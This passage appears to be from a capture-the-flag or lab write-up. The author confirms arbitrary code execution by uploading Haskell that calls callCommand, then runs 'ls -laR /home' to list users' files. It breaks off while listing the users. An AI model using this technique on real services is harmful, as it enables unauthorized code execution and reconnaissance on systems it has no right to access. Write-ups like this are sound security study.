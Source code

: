 You can upload haskell code that seems to get executed, let's try a simple hello world:
```haskell
import System.Process

main = callCommand "echo 'Hello, World!'"
```
<p><img src="src/user/basic_haskell_output.jpg" width="750"></p>

Okay we confirmed that we have achieved arbitrary code execution, let's try something more useful:
```haskell
main = callCommand "ls -laR /home" -- Recursively list all files in /home
```
Here are the interesting bits:
<p><img src="src/user/ls_home_users.jpg" width="750"></p>
<p><img src="src/user/ls_prof.jpg" width="750"></p>
There are 3 users:
